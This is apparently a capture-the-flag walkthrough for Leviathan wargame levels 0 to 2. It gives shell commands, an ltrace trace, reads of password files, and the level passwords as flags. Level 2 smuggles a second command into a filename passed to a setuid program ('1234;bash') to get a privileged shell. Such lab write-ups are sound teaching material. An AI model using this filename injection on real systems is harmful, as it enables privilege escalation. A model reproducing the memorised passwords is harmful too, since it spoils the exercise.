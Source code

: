 # Leviathan0
``` 
cd ./.backup
cat * | grep leviathan
```
flag:rioGegei8m
# Leviathan1
```
ltrace check
./check 
./check 
cat /etc/leviathan_pass/leviathan2
```
flag:ougahZi8Ta
# Leviathan2
```
mkdkir /tmp/test1
cd /tmp/test1
ltrace ~/printfile /etc/passwd
```
The program output:
```
__libc_start_main(0x804852b, 2, 0xffffd744, 0x8048610 <unfinished ...>
access("/etc/passwd", 4)                                                  = 0
snprintf("/bin/cat /etc/passwd", 511, "/bin/cat %s", "/etc/passwd")       = 20
geteuid()                                                                 = 12002
geteuid()                                                                 = 12002
setreuid(12002, 12002)                                                    = 0
```
In line 3, We can use ; in filename to inject code.\n
filename : 1234;bash

flag:Ahdiemoo1j